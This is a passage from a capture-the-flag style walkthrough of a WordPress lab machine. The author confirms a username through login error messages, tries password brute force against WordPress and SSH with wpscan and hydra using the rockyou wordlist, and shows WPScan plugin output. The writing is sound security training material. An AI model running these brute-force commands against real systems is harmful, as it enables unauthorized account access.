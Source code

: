 The site is very small. I did not see anything of interest in it's content. There is an author called elyana.   I tried this as a username on the login page. And Wordpress is nice enough to confirm that it's a valid username. 

http://target/wordpress/wp-login.php

![Incorrect Password](/assets/images/2021/03/AllInOneIncorrectPassword.png "Incorrect Password"). 

I tried the strings found in the HTML comment as the password, but it failed. I decided to try brute forcing elyana's password.

In Wordpress:
```bash
wpscan --url http://target/wordpress/ names elyana --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

And in ssh:
```bash
hydra -l elyana -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t4 target ssh
```

I left those 2 scripts running for a while. But they did not find the password. 

## Foot Hold

After having the 2 brute force attempts running for a while, I realized that the way in was probably not through a weak password. 

I went back and took a better look at the output of WPScan. 

```bash
[+] mail-masta
 | Location: http://target/wordpress/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://target/wordpress/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://target/wordpress/wp-content/plugins/mail-masta/readme.txt

[+] reflex-gallery
 | Location: http://target/wordpress/wp-content/plugins/reflex-gallery/
 | Latest Version: 3.1.7 (up to date)
 | Last Updated: 2021-03-10T02:38:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.1.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://target/wordpress/wp-content/plugins/reflex-gallery/readme.txt
```
